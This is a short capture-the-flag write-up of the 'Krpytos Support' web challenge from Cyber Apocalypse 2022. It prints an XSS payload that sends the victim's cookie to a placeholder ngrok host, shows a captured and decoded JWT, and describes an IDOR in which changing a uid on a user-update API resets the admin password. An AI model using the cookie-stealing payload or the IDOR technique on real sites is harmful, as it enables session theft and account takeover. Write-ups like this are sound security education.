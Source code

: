 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Krpytos Support Writeup
desc: Check out our writeup for Krpytos Support for Cyber Apocalypse 2022 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: web
challenge: Krpytos Support
tags: "web, twh, api, idor"
date: 2022-05-21T00:00:00+00:00
last_modified_at: 2022-05-21T00:00:00+00:00
---
```



> Solved By : thewhiteh4t

In this one we land on a support page where we can send a POST request, it also contains a backend button which takes us to a login page…

first I thought its a cookie stealing challenge so I send the following payload : 

```html
<img src=x onerror=this.src='<NGROK-LINK-HERE>/?'+document.cookie;>
```

and I got a JWT : 

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI
```

decoded :

```
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652534885
}
```

and I got two interesting things here, now the cookie did not work for login for some reason so I went back to enum and found an API endpoint :

```
/api/users/update
```

using XHR I sent the following request to change the password :

![](https://i.imgur.com/mVy9Zs9.png)

logged in with the new password :

![](https://i.imgur.com/lkqwQPZ.png)

but moderator doesn’t have the flag so I had to escalate to admin…

using the same payload above I just changed the `uid` from 100 to 1 and logged in again, I could have got it one go but well… 

![](https://i.imgur.com/JI1lO3O.png)

